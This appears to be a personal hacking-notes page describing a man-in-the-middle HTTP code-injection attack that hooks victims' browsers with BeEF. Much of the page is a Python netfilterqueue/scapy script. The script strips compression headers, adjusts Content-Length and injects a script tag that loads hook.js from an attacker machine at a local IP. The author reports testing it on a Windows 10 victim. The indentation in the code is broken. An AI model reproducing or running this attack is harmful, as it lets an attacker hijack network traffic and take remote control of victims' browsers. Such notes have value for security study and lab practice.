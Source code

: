 ```yaml
---
title: "HTTP code injection & BeEF"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can modify HTTP responses by changing the Raw data on the fly.  
[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

Since most clients will request [content encoding][http_compression] (by adding a "Accept-Encoding" header), the HTTP response data (scapy.Raw layer) will look like gibberish.  
This is is because the data is GZIPPED most of the time. To get around this we can simply delete this header from the HTTP request!  
[http_compression]: https://en.wikipedia.org/wiki/HTTP_compression

We also need to make sure we change the size of the "Content-Length" value to match with our injected code.   
Otherwise the client browser will not accept the server response.  

In the below example code we then use BeEF on our attacker machine. BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser. The key to success with BeEF is to "hook" a browser. This basically means that we need the victim to visit a vulnerable web app (or as shown in the below code example just by browsing to a HTTP website that has a particular string in the body text). This injected code in the "hooked" browser then responds to commands from the BeEF server. From there, we can do a number of malicious things on the victim's computer.  

On Parrot OS i first opened BeEF Framework and then logged in with the default credentials for BeEF: beef/beef at:
http://localhost:3000/ui/authentication

![beef](beef.jpg)

In the below example we are modifying HTTP responses and injecting the BeEF Hook javascript code into it. Evil stuff :-P  

I successfully tested all this on a Windows 10 victim PC with Chrome browser by visiting a HTML site that had a particular string in the body and replacing this with injected code.

I then verified the browser was hooked in BeEF on my attacker machine. Then i succesfully send a JS alert via BeEF (commands > browser > hooked domain > create alert dialog). 

```python

# !/usr/bin/env python
import netfilterqueue
import scapy.all as scapy
import re

ack_list = []


def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum

    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        load = scapy_packet[scapy.Raw].load
        if scapy_packet[scapy.TCP].dport == 80:
            print("[+] Request")
            load = re.sub("Accept-Encoding:.*?\\r\\n", "", scapy_packet[scapy.Raw].load)

        elif scapy_packet[scapy.TCP].sport == 80:
          print("[+] Response")
                print(scapy_packet.show())
                injection_code = '<script src="http://192.168.178.18:3000/hook.js"></script>'
                load = scapy_packet[scapy.Raw].load.replace('<meta property="og:title" content="Home"/>', injection_code)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))

        if load != scapy_packet[scapy.Raw].load:
            new_packet = set_load(scapy_packet, load)
            packet.set_payload(str(new_packet))
    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

